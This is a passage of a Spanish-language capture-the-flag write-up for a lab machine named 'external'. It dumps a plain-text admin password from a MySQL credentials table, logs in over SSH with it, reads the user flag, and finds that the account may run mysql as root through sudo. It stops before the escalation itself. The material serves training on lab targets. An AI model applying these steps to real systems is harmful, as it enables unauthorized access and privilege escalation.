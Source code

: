 Vamos a ver que contiene dicha tabla:

```mysql
select * from credentials;
```

Info:

```
+------+-------+--------------------------+
| id   | user  | password                 |
+------+-------+--------------------------+
|    1 | admin | 4dminDBS3cur3P4ssw0rd123 |
+------+-------+--------------------------+
1 row in set (0.200 sec)
```

Vemos una contraseña en texto plano del usuario `admin` vamos a probarla directamente por el servidor `SSH` a ver si funcionara.

### SSH

```shell
ssh admin@<IP>
```

Metemos como contraseña `4dminDBS3cur3P4ssw0rd123` y veremos que estaremos dentro.

Info:

```
admin@external:~$ whoami
admin
```

Vamos a leer la `flag` del usuario.

> user.txt

```
934841337017b7b43282ff826e4b8d01
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for admin on external:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User admin may run the following commands on external:
    (root) NOPASSWD: /usr/bin/mysql
```

Vemos que podemos ejecutar el binario `mysql` como el usuario `root` por lo que podremos realizar lo siguiente:
